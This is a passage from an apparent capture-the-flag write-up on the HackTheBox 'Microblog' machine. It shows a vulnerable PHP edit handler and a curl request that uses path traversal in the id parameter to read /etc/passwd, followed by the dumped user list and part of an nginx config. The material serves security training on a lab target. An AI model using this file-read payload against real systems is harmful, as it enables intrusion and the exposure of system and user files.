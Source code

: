 I've found this function, where you can edit your site your microblog site: ./microblog-template/edit/index.php
```php
//add text
if (isset($_POST['txt']) && isset($_POST['id'])) {
    chdir(getcwd() . "/../content");
    $txt_nl = nl2br($_POST['txt']);
    $html = "<div class = \"blog-text\">{$txt_nl}</div>";
    $post_file = fopen("{$_POST['id']}", "w");
    fwrite($post_file, $html);
    fclose($post_file);
    $order_file = fopen("order.txt", "a");
    fwrite($order_file, $_POST['id'] . "\n");  
    fclose($order_file);
    header("Location: /edit?message=Section added!&status=success");
}
```

You can realize that `$post_file` var loads the content of file `fopen("{$_POST['id']}", "w")`, we can just modify `id` parameter with whatever we want:
```bash
curl -i -s -k -X $'POST' \
       -H $'Host: foo.microblog.htb' \
       -H $'Content-Type: application/x-www-form-urlencoded' \
       -b $'username=t49mkkpc4a322f9hbhpfcehjp4' \
       --data-binary $'id=../../../../../etc/passwd&txt=no+mams+wey' \
       $'http://foo.microblog.htb/edit/index.php'
```

And we will get an ugly long /etc/passwd text where we can identify users `cooper` and `git`:
```text
root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:/dev:/usr/sbin/nologinsync:x:4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/usr/sbin/nologinman:x:6:12:man:/var/cache/man:/usr/sbin/nologinlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologinmail:x:8:8:mail:/var/mail:/usr/sbin/nologinnews:x:9:9:news:/var/spool/news:/usr/sbin/nologinuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologinproxy:x:13:13:proxy:/bin:/usr/sbin/nologinwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologinbackup:x:34:34:backup:/var/backups:/usr/sbin/nologinlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologinirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologingnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologinnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin_apt:x:100:65534::/nonexistent:/usr/sbin/nologinsystemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologinsystemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologinsystemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologinsystemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologincooper:x:1000:1000::/home/cooper:/bin/bashredis:x:103:33::/var/lib/redis:/usr/sbin/nologingit:x:104:111:Git Version Control,,,:/home/git:/bin/bashmessagebus:x:105:112::/nonexistent:/usr/sbin/nologinsshd:x:106:65534::/run/sshd:/usr/sbin/nologin_laurel:x:997:997::/var/log/laurel:/bin/false
```

Let's read `/etc/nginx/sites-enabled/default`:
```nginx
server
{
	listen 80; listen [::]:80; root /var/www/microblog/app; index index.html index.htm index-nginx-debian.html; server_name microblog.htb; location /
	{
		return 404;
	}
	location = /static/css/health/
	{
		resolver 127.0.0.1; proxy_pass http://css.microbucket.htb/health.txt;
	}
	location = /static/js/health/
	{
		resolver 127.0.0.1; proxy_pass http://js.microbucket.htb/health.txt;
	}
	location ~ /static/(.*)/(.*)
```